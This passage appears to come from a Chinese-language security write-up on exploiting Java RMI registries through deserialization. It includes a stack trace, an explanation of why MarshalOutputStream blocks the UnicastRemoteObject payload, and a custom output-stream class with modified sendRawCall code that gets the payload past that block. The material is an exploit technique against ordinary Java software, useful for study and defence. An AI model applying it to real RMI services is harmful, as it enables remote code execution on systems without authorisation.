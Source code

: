 ```java
reexport:268, UnicastRemoteObject (java.rmi.server)
readObject:235, UnicastRemoteObject (java.rmi.server)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
dispatch:88, RegistryImpl_Skel (sun.rmi.registry)
...
```

但需要注意的是，序列化 payload 时，我们使用 MarshalOutputStream 类来进行序列化，如果对象没有继承 RemoteStub 的话，会进行转化，UnicastRemoteObject 没有继承 RemoteStub，会被转化为 RemoteObjectInvocationHandler，导致在服务端无法触发。
```java
    public static void sendRawCall(String host, int port, ObjID objid, int opNum, Long hash, Object ...objects) throws Exception {
        ...
        final ObjectOutputStream objOut = new MarshalOutputStream(dos);
``` 
为了解决这个问题，可以重写 MarshalOutputStream，将其 replaceObject 置空：
```java
    public static class myMarshalOutputStream extends ObjectOutputStream{

        public myMarshalOutputStream(OutputStream var1) throws IOException {
            this(var1, 1);
        }

        public myMarshalOutputStream(OutputStream var1, int var2) throws IOException {
            super(var1);
            this.useProtocolVersion(var2);
            AccessController.doPrivileged(new PrivilegedAction<Void>() {
                public Void run() {
                    myMarshalOutputStream.this.enableReplaceObject(true);
                    return null;
                }
            });
        }

        protected Object replaceObject(Object var1) throws IOException {
            return var1;
        }

        protected void annotateClass(Class<?> var1) throws IOException {
            this.writeLocation(RMIClassLoader.getClassAnnotation(var1));
        }

        protected void annotateProxyClass(Class<?> var1) throws IOException {
            this.annotateClass(var1);
        }

        protected void writeLocation(String var1) throws IOException {
            this.writeObject(var1);
        }
    }
```
然后修改 sendRawCall，使用我们自己编写的 myMarshalOutputStream。
```java
    public static void sendRawCall(String host, int port, ObjID objid, int opNum, Long hash, Object ...objects) throws Exception {
        ...
```
